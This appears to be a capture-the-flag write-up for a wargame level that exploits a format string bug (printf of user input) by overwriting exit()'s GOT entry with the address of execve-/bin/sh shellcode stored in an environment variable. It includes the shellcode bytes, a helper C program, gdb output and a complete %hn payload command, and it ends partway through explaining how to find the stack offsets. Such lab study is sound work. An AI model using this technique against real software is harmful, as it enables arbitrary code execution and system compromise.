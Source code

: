 # Leve05

## What the binary does
The program:
- Reads 100 bytes using fgets().
- Applies a loop that scans and transforms any uppercase letters into lowercase (A–Z → a–z).
- Then it prints the input using printf(user_input), without a format string. (That’s a format string vulnerability)

The program ends with a call to exit(0), and the GOT entry for exit() is used.
This gives us a chance to overwrite the GOT to redirect execution.

## The idea
We overwrite the exit() GOT entry with the address of our shellcode, which we store in an environment variable.
That way, when the program calls exit(), it actually jumps to our shellcode.

##  Step-by-step

### 1. Prepare the shellcode
We inject our shellcode using the environment :
```
export SHELLCODE=$(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

We put the shellcode in the environment because when we tried to send the shellcode directly in the command gdb and ltrace didn't gave use the same address.

### 2. Find the address of the shellcode
We write a small C program to print the environment variable address.
```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *addr = getenv("SHELLCODE");
    if (addr) {
        printf("%p\n", addr);
    } else {
        printf("Address not found\n");
    }
    return 0;
}
``` 

We compiles it with the flag `-m32` to get an address in 32 bits.
```
gcc -m32 get_shellcode_addr.c
```

### 3. Locate the GOT entry for `exit`
In gdb:
```
(gdb) x/1w 0x080497e0
0x080497e0 <exit@got.plt>: 0xffffd6b8
```
We want to overwrite that address with the address of our shellcode.
Instead of writing all 4 bytes at once, we use two separate 2-byte writes using `%hn`.

#### Why?
Because:
- The full address 0xffffd91a in decimal is 4294953498. It is way too large to be handle directly in a %n-based format string.
- The printf() function has limitations when converting large values to decimal padding.
- Writing two smaller values like 0xd91a (55578) and 0xffff (65535) is simpler and more reliable.

### 4. The final payload
We’ll use format string specifiers like `%hn` (half-word write) to write the shellcode address in 2-byte chunks.
```
(python -c 'print "\xe2\x97\x04\x08" + "\xe0\x97\x04\x08" + "%55570d%11$hn" + "%9957d%10$hn"'; cat) | ./level05
```

Addresses:
- \xe2\x97\x04\x08 → 0x080497e2 → second half of exit GOT
- \xe0\x97\x04\x08 → 0x080497e0 → first half of exit GOT


We want to write the shellcode address: 0xffffd91a

Split into:
- 0xd91a = 55578 (second half)
- 0xffff = 65535, and 65535 - 55578 = 9957 (first half minus second half)

We also need to subtract 8 bytes to the second half of the shellcode address because of the 8 bytes that we already write with the printf.

So:
- %55570d%11$hn → write 0xd91a at 0x080497e0
- %9957d%10$hn → write 0xffff at 0x080497e2

#### Why %10$hn, %11$hn?
Because of how the stack is laid out, we need to calculate the positions where the addresses we inject land.

We can do this by using this pattern:
```
python -c 'print "AAAA" + "%x "*20'
```